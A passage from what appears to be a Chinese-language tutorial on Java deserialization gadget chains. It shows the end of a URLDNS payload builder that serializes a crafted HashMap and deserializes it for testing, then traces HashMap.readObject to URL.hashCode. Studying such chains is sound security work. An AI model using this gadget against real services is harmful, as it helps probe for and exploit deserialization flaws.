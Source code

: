 ```java
        f.set(url, -1);
        // 序列化成对象，输出出来
       return hashMap;
    }
    public static void main(String[] args) throws Exception {
        payload2File(urldns(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

首先在HashMap类中,有出发反序列化的方法readObject,找到HashMap类中的readobject方法

![image-20210713113313310](CC链学习-上/image-20210713113313310.png)

在readObject方法的最后一排,调用了hash方法,然后又调用了key的hashCode()方法,这里我们的key可控

![image-20210713113413603](CC链学习-上/image-20210713113413603.png)

接下来在`java.net.URL`类中,存在一个hashCode()方法,

